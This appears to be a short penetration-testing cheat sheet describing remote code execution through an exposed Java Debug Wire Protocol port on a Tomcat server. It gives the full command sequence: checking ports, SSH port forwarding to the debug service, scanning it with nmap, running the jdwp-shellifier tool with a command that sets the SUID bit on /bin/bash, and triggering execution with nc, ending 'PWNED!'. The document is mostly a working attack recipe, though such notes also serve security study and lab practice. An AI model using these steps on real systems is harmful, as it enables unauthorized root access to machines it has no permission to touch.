 ### Java Debug Wire Protocol (JDWP) Remote Code Execution

### REQUIREMENTS: The apache tomcat server has the debugging enabled: jdwp=transport=dt_socket,address=localhost:8000,server=y

### Tools: https://github.com/IOActive/jdwp-shellifier

### STEPS:

#### 1) ss -tulpn (Verify that the debug service is running on the target machine on port 8000 and 8005 tomcat service)

#### 2) ssh -L 8888:127.0.0.1:8000 USER@TARGET_IP (If the service runs locally, do local port forwarding to have access to the service)

#### 3) sudo nmap -sC -sV -p 8888 127.0.0.1 (Verify that you have access to the service)

#### 4) Download the exploit

#### 5) python2 jdwp-shellifier.py -t 127.0.0.1 -p 8888 --cmd 'chmod u+s /bin/bash' (Run the exploit)

#### 6) Target session: nc localhost 8005 (Trigger a connection on target ssh session AFTER you run the exploit to trigger the RCE

#### 7) PWNED!
